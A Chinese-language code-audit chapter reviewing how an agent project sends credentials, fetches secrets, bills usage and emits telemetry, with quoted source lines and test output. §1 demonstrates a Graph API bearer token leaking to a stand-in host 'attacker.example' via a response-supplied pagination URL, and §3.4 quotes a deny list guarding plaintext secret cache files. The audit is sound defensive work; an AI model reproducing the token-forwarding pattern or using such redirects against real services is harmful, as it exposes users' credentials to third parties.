

# r9c · 对外接驳面 —— 凭据、账单与信号往哪里去

> **读者定位**:你有多年后端工程经验(Go / Java 之类),**没读过 hermes-agent**,
> 也不熟 LLM provider 生态与 Python 异步生态。本章不要求你查任何外部资料、不要求你看源码。
> 首次出现的术语都会用一句话锚定。
> **溯源约定**:关键断言后跟 `路径:行号 @ 863e313`(`863e313` 是本项目固定的基线提交),
> 锚点单独成行、写在代码块之前。

---

## TL;DR(快读路径)

1. **这一簇是什么**:agent 与外部世界之间那层"账"——模型能力从哪些**非主路径**接进来(传输层、
   中继、Copilot)、密钥从哪里**取**(外部密码管理器)、钱怎么**算**(额度与计费)、
   自己的运行状态往外**说**给谁(监控、trace、webhook)。47 个文件,19,274 行。
2. **本章最重要的一个问题**:**一个带凭据的请求,它的目的地是谁决定的?**
   把这一簇的所有出网点按这个问题排一遍,会得到一条清晰的恶化梯度——
   目的地由**本地配置**决定(绝大多数,安全)→ 由**入站消息**决定(网关中继媒体)
   → 由**远端响应体**决定(Microsoft Graph 分页)。最后这一档是本轮发现的新下限。
3. **最刺眼的事实**:这个仓库**已经写好了**一个专门解决该问题的模块
   ——`hermes_cli/urllib_security.py`,设计得很完整(origin 归一化、头白名单、
   307/308 语义、防 addheaders 绕过)。全仓 25 个"自拼凭据头 + 标准库发出去"的调用点里,
   **接了 2 个**。这不是"没想到",是"想到了、写好了、然后没接上"。
4. **第二条主线**(承接上一轮):**同一份知识被写第二遍然后漂开**。本轮的新发现是——
   这个仓库有一套**专门钉住副本的测试惯例**,而漂移恰好发生在惯例**没覆盖到**的那一份上。
   还有一个反面对照:唯一一处**共享谓词而不是重抄**的地方,至今没漂。
5. **一个关于测试的教训**:网关中继那条判据之所以两轮"全绿",是因为
   **测试替身自己把被测逻辑重抄了一遍**。替身复制了实现,断言就只是在验证复制本身。

---

## 1. 从一个场景说起:一次分页读邮件

你给 agent 配了 Microsoft 365,让它"看看我今天有哪些未读邮件"。

agent 调 Microsoft Graph(微软的统一 API 网关,读邮件/日历/文件都走它)。
邮件多,一页装不下,于是 Graph 用**分页**:第一页响应体里带一个 `@odata.nextLink` 字段,
里面是"下一页的完整 URL"。客户端照着它再请求一次,直到没有 nextLink 为止。这是标准做法。

hermes 的实现就是照着标准做的:

`tools/microsoft_graph_client.py:139 @ 863e313`

```python
            next_url = payload.get("@odata.nextLink")
```

拿到之后,交给一个 URL 解析函数:

`tools/microsoft_graph_client.py:332-336 @ 863e313`

```python
    def _resolve_url(self, path_or_url: str) -> str:
        if path_or_url.startswith(("http://", "https://")):
            return path_or_url
        path = path_or_url if path_or_url.startswith("/") else f"/{path_or_url}"
        return f"{self.base_url}{path}"
```

**只要它长得像绝对 URL,就原样放行**——包括明文 `http://`,包括任何主机名。
然后这个 URL 被送进请求函数,而请求函数**无条件**挂上你的 Graph 令牌:

`tools/microsoft_graph_client.py:277-281 @ 863e313`

```python
            request_headers = {
                "Authorization": f"Bearer {token}",
                "Accept": "application/json",
                "User-Agent": self.user_agent,
            }
```

于是:**"这个凭据发给谁"这件事,是由上一个 HTTP 响应的正文决定的。**

这不是纸上推演。用被测类自己留的 transport 注入口(不发任何真实网络请求),
让第一页返回一个指向别处的 nextLink:

```text
收集到 2 项(说明第二页被真的取了)

  请求 https://graph.microsoft.com/v1.0/me/messages
      Authorization 携带令牌 = True
  请求 http://attacker.example/evil?page=2
      Authorization 携带令牌 = True

VERDICT: 令牌被发往响应体指定的任意主机 = True
```

**要说清楚的边界**:这不等于"微软会给你返回恶意 nextLink"。现实中 Graph 大概不会。
判它是缺陷的理由不是"攻击已经发生",而是一条更硬的纪律——
**凭据的目的地不应该由网络响应来决定**。中间人、被攻陷的中继、一次 DNS 劫持,
任何一个能改写响应正文的位置都能改写这个目的地,而代码这一侧**没有任何东西**拦着。

记住这个场景。本章后面所有机制,都可以放回这一个问题下面来读:
**这个带凭据的请求,目的地是谁决定的?**

---

## 2. 全景

这一簇 47 个文件按"和外面打交道的四种事"分成四片,再加中继这条斜穿的线:



粗线是本章的主线:**三条路都会带着凭据出网**。第 3 节逐条讲它们的目的地由谁决定。

**这里先纠正一个容易搞反的方向**:`plugin_llm.py` 不是"插件给宿主注入一个模型",
而是**宿主把自己已经配好的模型借给插件用**——插件不必各自持有 API key。
插件想注册**新** provider 走的是另一条路(`plugins/model-providers/`)。
本章作者第一次读时也搞反了,写在这里免得你也绕一圈。

---

## 3. 逐机制

### 3.1 传输层:一个抽象,和三份互相抄的能力表

**要解决的问题**:同样是"发一轮对话给模型",OpenAI、Anthropic、AWS Bedrock、
OpenAI Codex 的**线上协议**(wire protocol,即真正发出去的 HTTP 请求长什么样)彼此不同。
主循环不该知道这些差异。

**怎么做**:`agent/transports/` 定义一个抽象基类,每个协议一个实现,按 `api_mode`
(配置里写的"用哪种协议"的字符串)选一个。这部分设计是干净的。

**取舍出问题的地方在"发现"这一步**。传输模块是**动态导入**的——因为有的传输依赖可选的
第三方包(比如 Anthropic 的官方 SDK),没装就该优雅降级:

`agent/transports/__init__.py:49-58 @ 863e313`

```python
def _discover_transports() -> None:
    """Import all transport modules to trigger auto-registration."""
    global _discovered
    _discovered = True
    try:
        import agent.transports.anthropic  # noqa: F401
    except ImportError:
        pass
    try:
        import agent.transports.codex  # noqa: F401
    except ImportError:
        pass
```

`except ImportError: pass` 的意图很清楚:**可选依赖缺失不该炸**。问题是它分不清两件事——
"第三方包没装"和"**我们自己的传输模块里有个拼错的 import**"。两者都是 `ImportError`,都被吞掉。
被吞之后,`get_transport()` 返回 `None`,而调用方拿到 `None` 当对象用:

```text
  get_transport('anthropic')        -> None
  get_transport('bedrock')          -> None
  get_transport('chat_completions') -> <ChatCompletionsTransport object ...>
  get_transport('codex_responses')  -> <ResponsesApiTransport object ...>

后果演示:对 None 调用契约方法
  AttributeError: 'NoneType' object has no attribute 'build_kwargs'
```

用户看到的是 `'NoneType' object has no attribute 'build_kwargs'`,
而真实原因("你没装 anthropic 包"或"我们的模块有语法错")被丢在了三层之外。
**一个为"优雅降级"写的 except,把一类诊断信息永久删除了。**

**可迁移的教训**:捕获 `ImportError` 来做可选依赖降级时,要**确认异常来自你想降级的那个包**
(检查 `exc.name`),否则你顺手把自己代码里的 import bug 也降级了。

---

### 3.2 「同一份知识写第二遍」—— 这一轮把病因看清了

上一轮(R9B)得出一个结论:这个仓库最常见的病是同一份知识有了第二个副本,然后两份漂开。
本轮在传输层和语音能力探测上又撞见几次,但**看清了一件上一轮没看清的事**。

#### 一个作者亲手承认在抄的地方

摘要路径(会话太长时,agent 把前文压缩成摘要再继续)不走传输层,自己拼消息发出去。
所以它得把传输层做的"清洗"再做一遍——**注释把这件事写得明明白白**:

`agent/chat_completion_helpers.py:2166-2173 @ 863e313`

```python
            # hand-builds messages and calls chat.completions.create() directly,
            # bypassing the transport — so mirror that sanitization here:
            # tool_name (SQLite FTS bookkeeping), the codex_* reasoning carriers,
            # timestamp (preserved on gateway user replay entries for the
            # stale-confirmation expiry check — #47868 rejection class),
            # and every Hermes-internal underscore-prefixed scaffolding key.
            for schema_foreign in ("tool_name", "codex_reasoning_items", "codex_message_items", "timestamp"):
                api_msg.pop(schema_foreign, None)
```

清洗要剥掉的是 **Hermes 内部键**——数据库记账用的字段,provider 不认识,发过去会被严格的
provider 判 400。这里剥了四个具名键,再加所有下划线开头的键。

而传输层那一侧,剥的键里有一个 `effect_disposition`:

```text
agent/transports/chat_completions.py:264:                or "effect_disposition" in msg
agent/transports/chat_completions.py:307:                or "effect_disposition" in msg
agent/transports/chat_completions.py:315:                out_msg.pop("effect_disposition", None)
```

`effect_disposition` 既不在摘要路径那四个具名键里,也不以下划线开头。
**它从副本里漏掉了**,于是摘要请求会把这个内部键原样发给 provider。

#### 反面对照:唯一一处"共享"而不是"重抄"的地方,至今没漂

同一个仓库里还有**第三份**类似的清洗逻辑,而它的写法不同——
它没有重抄谓词,而是**从传输层 import 了那个谓词**(`run_agent.py:7274` 一带
`from agent.transports.chat_completions import _model_consumes_thought_signature`)。
这一份**没有漂**。

同一个仓库、同一类逻辑、同一批作者,**抄的两份都漂了,共享的那一份没漂**。
这不是道德问题,是机械问题:副本之间没有任何东西保证它们相等。

#### 更有意思的一层:仓库其实有"钉住副本"的惯例,而漂移落在惯例之外

语音输入(STT,speech-to-text)的内置 provider 名单在仓库里有**三份**。
其中两份逐字相同——一份在注册表、一份在分派器,而且作者**知道**自己在抄,还写了注释说
"有一个回归测试会在它们漂开时失败":

`tools/transcription_tools.py:336-337 @ 863e313`

```python
# Kept in sync with ``agent.transcription_registry._BUILTIN_NAMES`` —
# a regression test fails if they drift. The plugin hook from
```

测试确实存在,而且写得很好——漂了会直接打印两侧差集:

`tests/agent/test_transcription_registry.py:176-181 @ 863e313`

```python
    def test_registry_builtins_match_dispatcher_builtins(self):
        from tools.transcription_tools import BUILTIN_STT_PROVIDERS

        assert transcription_registry._BUILTIN_NAMES == BUILTIN_STT_PROVIDERS, (
            "agent.transcription_registry._BUILTIN_NAMES and "
            "tools.transcription_tools.BUILTIN_STT_PROVIDERS have drifted!\n"
```

**而漂掉的是第三份**——语音模式里一处"当前配置能不能用内置 STT"的判断,手写了 7 个名字,
少一个 `deepinfra`:

`tools/voice_mode.py:2193-2201 @ 863e313`

```python
    native_stt_available = stt_provider in {
        "local",
        "local_command",
        "groq",
        "openai",
        "mistral",
        "xai",
        "elevenlabs",
    }
```

用户侧的表现是:配了 DeepInfra 做语音输入,**唤醒词能用,语音模式说"你没配 STT"**。

关键在于:**守卫没有失效,是守卫的作用域画小了。**
写测试的人想到的是"注册表 ↔ 分派器"这一对,而第三份副本住在一个 UI 侧的能力探测里,
不在任何人心目中的"那一对"里。这个第三份**零测试覆盖**——
在整个 `tests/` 目录里搜 `native_stt_available`,一条都没有。

**这个形态在全仓有多普遍?** 用 AST 扫描做了普查(判定规则:一个全部由字符串常量组成、
元素 ≥3 个、其中 ≥3 个落在"provider 名词表"里的容器字面量,排除权威名单自身的定义处):
非测试代码里 **58 处**(严口径、已按 文件:行 去重;搜索面为基线全部 3,846 个 `.py`,
AST 解析成功 3,846 / 失败 0)。而 §上文那种钉住测试,全仓只装了 **2 处**(STT 一对、TTS 一对)。

**可迁移的设计原则**:当一份知识不得不有副本时,危险的不是副本数量,
而是**哪些副本被算进了守卫的作用域**。加副本时要问的不是"我抄对了吗",
而是"**这一份进了那张钉住表吗**"。

---

### 3.3 观测与外发:三条通道,以及为什么它们不算同一类问题

agent 会把自己的运行状态往外说。本轮把三条外发通道逐个查了"端点由谁决定":

| 通道 | 端点来源 | 主机/scheme 校验 | 携带凭据 |
|---|---|---|---|
| OTLP 导出(把指标/日志/链路发给监控系统) | 仅本地配置 `monitoring.export.otlp.endpoint` | **无**(只判非空) | **有**:可把任意环境变量的值挂成请求头 |
| 出站 webhook(把事件 POST 给你配的 URL) | 仅本地配置 `hooks.outbound[].url` | **scheme 有**、主机无;3xx 不跟随 | 无凭据,只挂 HMAC 签名 |
| trace 上传(把执行轨迹传到 Hugging Face) | hermes **完全不指定**,交给 SDK 默认 | 无 | **有**:HF 写权限 token |

**结论是:这三条都不算第 1 节那类问题。** 理由很实在——它们的端点**全部来自本地配置或环境变量,
没有一条来自远端响应**。能改你本地配置的人,已经能做比这严重得多的事。
出站 webhook 那条的 scheme 检查形状还是对的(前缀判断,不是子串匹配),而且**明确不跟随 3xx**。

把这一格记清楚很重要:**"没有主机校验"本身不是缺陷,"目的地由不可信输入决定"才是。**
本章第 1 节那条之所以成立,不是因为它缺校验,是因为它的目的地来自响应正文。

#### 但这一片有一条别的问题:文档把外发内容说小了

出站 webhook 的文档在讲"要不要信任目标"时是这么说的:

> Note that payloads include tool inputs and event metadata, so only point targets at endpoints you trust, and prefer `https://`.

"tool inputs and event metadata"——工具的**输入**和事件元数据。听起来是:
它知道你调了 `read_file` 以及参数是什么,但不知道文件内容。

实际发出去的载荷里,除了几个被提到顶层的字段,**其余全部事件参数原样进 `extra`**:

`agent/outbound_webhooks.py:414 @ 863e313`

```python
    extras = {k: v for k, v in kwargs.items() if k not in _TOP_LEVEL_PAYLOAD_KEYS}
```

而那张"被提到顶层"的名单只有四个键:

`agent/outbound_webhooks.py:99 @ 863e313`

```python
_TOP_LEVEL_PAYLOAD_KEYS = {"tool_name", "args", "session_id", "parent_session_id"}
```

`result` 不在里面。而工具执行完之后,发事件的那一步是把**完整结果对象**当参数传进来的:

`model_tools.py:1103-1107 @ 863e313`

```python
        invoke_hook(
            "post_tool_call",
            tool_name=function_name,
            args=function_args,
            result=result,
```

于是 `extra.result` 里躺着的是**工具的完整输出**——读文件工具的文件内容、
搜索记忆工具的记忆条目、执行命令工具的 stdout。文档说的是"输入",实际是"输入 + 输出"。

**为什么这条值得单独讲**:这句文档正好出现在"只指向你信任的端点"这个**风险提示**里。
风险提示把风险说小了,比没有风险提示更糟——读者据此做的信任判断,是基于一个偏低的估计做的。

---

### 3.4 密钥来源:钥匙不放在配置里,以及一份没进名单的明文缓存

**要解决的问题**:API key 写在配置文件里,就等着被 commit 进 git、被截图、被备份到网盘。
更好的做法是配置里只写一个**引用**,真正的值运行时从外部密钥管理器取。

hermes 支持三种来源:Bitwarden、1Password,以及**任意外部命令**(你给一条命令,
它打印密钥,hermes 收走)。抽象契约很朴素——一次取回返回一个字典:

`agent/secret_sources/base.py:112 @ 863e313`

```python
    secrets: Dict[str, str] = field(default_factory=dict)
```

这个 `Dict[str, str]` 是理解本节的关键。它绑定的是 `环境变量名 ← 引用`,
密钥取回后进 `os.environ`,**从此和"这个密钥该发给谁"彻底脱钩**。
所以回到本章的主问题——"取回的密钥有没有'发往何处'的约束"——**答案是没有,而且结构上不可能有**。
这不是缺陷,是这层抽象的边界:约束目的地是**用密钥那一侧**的责任,不是取密钥这一侧的。
(本章 §1 那条正是"用的那一侧"没管住。)

#### 本节最值得记住的一条

取回的密钥为了避免反复 shell 出去,会**缓存到磁盘**。1Password 这一路的缓存文件,
按它自己的模块文档,存的是明文值:

`agent/secret_sources/onepassword.py:36-37 @ 863e313`

```python
every reference.  The disk file holds only resolved secret *values*; auth
material is fingerprinted, never stored.
```

而 agent 有一张**读禁清单**,防的就是"模型或技能把凭据文件挂进沙箱读走"。
清单里有 Bitwarden 的同类缓存,**而且旁边的注释把这条的来历写得清清楚楚**:

`agent/file_safety.py:280-284 @ 863e313`

```python
        os.path.join("auth", "google_oauth.json"),
        # Bitwarden Secrets Manager disk cache: stores plaintext secret values
        # to avoid re-fetching across back-to-back CLI invocations. The file
        # was introduced by #31968 but not added to this guard.
        os.path.join("cache", "bws_cache.json"),
```

注释在说:**这个文件当初被引入时忘了加进本守卫,后来补上了。**
也就是说,"新增一个明文密钥缓存却忘了登记"这个错误,在这个仓库里**发生过一次、被发现、被修复、
还被写成注释留了案**。

然后 1Password 的缓存,犯了**同一个错**,而这次没人发现。全仓搜两个文件名:

```text
./gateway/platforms/base.py:1369:        os.path.join("cache", "bws_cache.json"),
./gateway/platforms/base.py:1370:        os.path.join("cache", "bws_cache.enc.json"),
./agent/secret_sources/onepassword.py:34:are cached in-process and on disk under ``<hermes_home>/cache/op_cache.json``
./agent/secret_sources/onepassword.py:118:_DISK_CACHE_BASENAME = "op_cache.json"
./agent/secret_sources/bitwarden.py:100:_DISK_CACHE_BASENAME = "bws_cache.json"
./agent/secret_sources/bitwarden.py:101:_ENCRYPTED_CACHE_BASENAME = "bws_cache.enc.json"
./agent/file_safety.py:50:            str(hermes_home / "cache" / "bws_cache.enc.json"),
./agent/file_safety.py:284:        os.path.join("cache", "bws_cache.json"),
./hermes_cli/web_server.py:1779:    "bws_cache.json",
./hermes_cli/web_server.py:1780:    "bws_cache.enc.json",
```

`bws_cache` 出现在**四个守卫点**;`op_cache` 只出现在**它自己的模块里**——零个守卫点。
两个文件结构相同、内容同样是明文密钥、放在同一个 `cache/` 目录下。

**这就是本章反复撞见的那个形状**:防线存在、防线的历史教训被写成了注释、
而第二个同类实例不在防线里。和 §1 的"25 个出网点接了 2 个"、§3.2 的"钉住表覆盖了没漂的那一对"、
§3.5 的"双钥匙守卫只装在一个消费者上",是同一件事的四次重演。

#### 另外两条

- **推荐给插件作者的安全助手自己有问题**:密钥源支持"每次取回给子进程一个受控的环境视图"
  (只放行该 profile 该放行的变量)。但插件指南力荐的那个助手函数,是从**进程全局** `os.environ`
  取放行清单的,于是本 profile 的 token 传不进去、**兄弟 profile 的 token 反而漏进去**。
  一个为隔离而写的工具,把隔离方向搞反了。
- **源名校验用了 Unicode 感知的判断**:契约写的是 `[a-z0-9_]+`,实现用的是 `.isalnum()`。

  `agent/secret_sources/registry.py:113 @ 863e313`

  ```python
      if not name or not name.replace("_", "").isalnum() or name != name.lower():
  ```

  Python 的 `str.isalnum()` 对 `café`、全角 `ｖａｕｌｔ` 都返回 `True`。
  于是可以注册一个**看起来和内置源一模一样**的来源名,用来伪造"这个密钥是从哪来的"这一标签。
  这是个小口子,但它演示了一件通用的事:**用语言内置的字符类判断去实现一个 ASCII 契约,
  在 Python 里默认是 Unicode 语义**,和你写在文档里的那个正则不是一回事。

---

### 3.5 计费:一句 "never" 和一个绕过它的第二消费者

**要解决的问题**:agent 花的是真钱。用户得能看到"这个月还剩多少"。
开发这套 UI 时不能真去烧钱,所以有一套**开发夹具**(fixture):
设一个环境变量,就能让界面显示"余额耗尽"之类的假状态,方便调样式。

假数据和真账号,是绝对不能串的。作者非常清楚这一点,把防线和它的理由都写进了 docstring:

`agent/credits_tracker.py:707-712 @ 863e313`

```python
    Hard prod-leak guard: a fixture applies ONLY when the dev flag HERMES_DEV_CREDITS
    is also on, so a stray HERMES_DEV_CREDITS_FIXTURE (leaked into a shell profile, a
    container env, a launch plist, …) can never surface fabricated balances/notices
    on a real account.
    """
    if not is_truthy_value(os.environ.get("HERMES_DEV_CREDITS")):
```

设计是**双钥匙**:光有夹具变量不算数,还得有主开关 `HERMES_DEV_CREDITS`。
理由写得很具体——就怕那个变量**漏在 shell 配置里**被带到真环境。

问题是,这个夹具变量有**第二个消费者**,在另一个文件里,**它不查主开关**。
实测:只设夹具变量、主开关不设——

```text
环境:HERMES_DEV_CREDITS = None (未设=主开关关闭)
      HERMES_DEV_CREDITS_FIXTURE = depleted

  ct.dev_fixture_credits_state() -> None
  bu._dev_fixture_usage_model() -> UsageModel(available=True, status='depleted', plan_name='Plus',
      ..., subscription_remaining_usd=0.0, total_spendable_usd=0.0,
      plan_bar=UsageBar(kind='plan', remaining_usd=0.0, total_usd=20.0, spent_usd=20.0), ...)
```

左边那个守卫工作正常,返回 `None`。右边这个造出了一整份"已用满 $20 / 余额 $0 / 状态 depleted"。
docstring 里那个 **"can never"**,是假的。

**这条为什么归到本章主线**:它和 §3.2 是同一个病,只是标的不同——
§3.2 漂的是一张名单,这里漂的是**一道安全检查**。
一个防线被复制成两份,其中一份忘了带上防线本身,那道防线就等于没有。

---

### 3.6 Codex 传输:一个把自己完成通知吃掉的排空循环

**场景**:agent 通过 OpenAI Codex 的 app-server 协议干活(app-server 是一个常驻子进程,
用 JSON-RPC 跟它说话)。你开了审批(每次改文件都要你点同意)。
某一轮,codex 请求审批,你同意了,然后——**界面卡住十分钟,最后报"turn 超时"**。

**原因**:处理审批请求之前,代码会**先排空最多 8 条待处理通知**,
这样做审批决策时手上的状态是最新的(比如"这次要改哪些文件")。这个理由是对的。

排空循环把主循环的处理逻辑抄了一遍——显示桥、记账、文件变更追踪、消息投影、
甚至"turn 被中止"这个标记都处理了。**唯独漏了 `method == "turn/completed"` 这一支。**
主循环里有它:

`agent/transports/codex_app_server_session.py:734-735 @ 863e313`

```python
            if method == "turn/completed":
                turn_complete = True
```

排空循环里没有。于是本轮的完成通知如果恰好落进这个窗口,**就被消费掉、丢失了**。
外层还在等一个永远不会再来的 `turn/completed`,一直等到超时。

实跑(把超时调成 3 秒方便观察):

```text
no-approval            elapsed=0.00s final='done' interrupted=False retire=False error=None
drained                elapsed=3.00s final='done' interrupted=False retire=False error=None
drained,failed         elapsed=3.01s final='' interrupted=True retire=True error='turn timed out after 3.0s'
```

第一行是没有审批的对照:**0.00 秒**。第二行是完成通知被排空吃掉:**空转到 3 秒**(生产默认 600 秒)。
第三行最坏——那一轮如果没有助手文本兜底,**真实错因被替换成伪造的 "turn timed out"**,
还顺带触发了一次不必要的会话退休。

**又是同一个病**:内层循环是外层循环的手抄副本,抄漏了一个分支。
和 §3.2、§3.5 唯一的区别是漏掉的东西不同:一次是名单条目,一次是安全检查,这次是**终止条件**。

---

## 4. 可迁移的设计原则

如果你要造自己的 agent harness,这一簇值得直接搬走的是下面五条。

**① 把"这个凭据发给谁"当成一个显式决策点,而不是请求的副产品。**
凭据目的地的可信度分三档,写代码时应当能一眼看出自己在哪一档:
本地配置(可信)→ 入站消息(不可信)→ 远端响应体(最不可信)。
最后一档必须有主机允许清单,**并且**必须禁止或校验重定向——只做前者不够(见下条)。

**② 主机校验和重定向防护是两件事,缺一不可。**
本轮实测:标准库 `urllib` 默认跟随 302,**并把 `Authorization` 原样带到新主机**。
所以一个"主机完全合法"的 URL,只要对端回一个 302,凭据照样出去。
只加主机校验,校验会对这个 URL 判通过。两道都要有。

**③ 防线写好了不等于装上了。给防线做一次覆盖率普查。**
本轮对基线做了这个普查:25 个"自拼凭据头 + 标准库发送"的调用点,只有 2 个接了那个
专门写的防护模块。**一个模块的存在不是覆盖率的证据。**
如果你写了一个安全工具函数,同时写一条能数出"应该用它的地方有几个、实际用了几个"的检查。

**④ 副本要么消灭,要么进钉住表 —— 但真正该管理的是"钉住表的作用域"。**
这个仓库已经有很好的钉住测试惯例,漂移仍然发生,因为漂的那一份不在惯例覆盖的"那一对"里。
所以加副本时的检查项不是"我抄对了吗",而是"**这一份进了那张表吗**"。
更好的做法是共享而不是复制——基线里唯一共享谓词的那处至今没漂,这是同一仓库内的对照组。

**⑤ 测试替身不要重新实现被测逻辑。**
本轮最有说服力的一条:网关中继那个 host-blind 判据两轮"全绿",
是因为测试用的假客户端**自己重抄了同一个子串判断**。
替身复制实现之后,断言验证的是复制品,不是产品。
**替身应该复制的是接口,不是逻辑。**

---

## 5. 地图与代码的出入

本簇的 ▲(文档与代码矛盾)/ ◇(代码有文档无)/ ◎(文档成立但保守)定案已融进上面各节叙述,
完整清单在报告 §定案 与各片底稿。这里只点出**性质上值得单独一提**的一类:

**风险提示把风险说小了**(§3.3)。出站 webhook 文档说载荷含"工具输入与事件元数据",
实际含完整工具输出。这类 ▲ 比普通的过期文档更值得优先修——
因为它出现在读者**据以做安全决策**的那句话里。

---

## 6. 延伸

各片底稿(求全求证,带逐行溯源与测试读数):

- `notes/r9c-raw-codex-transport.md` —— Codex 传输族 4 文件
- `notes/r9c-raw-transport-contract.md` —— 传输层契约与 chat_completions / anthropic / bedrock
- `notes/r9c-raw-relay-and-plugin-llm.md` —— 中继、插件 LLM、Copilot ACP
- `notes/r9c-raw-secret-sources.md` —— 密钥来源与凭据文件
- `notes/r9c-raw-monitoring-egress.md` —— 监控、OTLP、trace 上传、出站 webhook、TLS
- `notes/r9c-raw-billing-and-http-clients.md` —— 额度、计费视图与三个 HTTP 客户端
- `notes/r9c-90-handover-rulings.md` —— 本轮移交项定案与凭据出网面普查
- `notes/r9c-01-scope-and-l1-closeout.md` —— 范围核对与 L1 收口条件
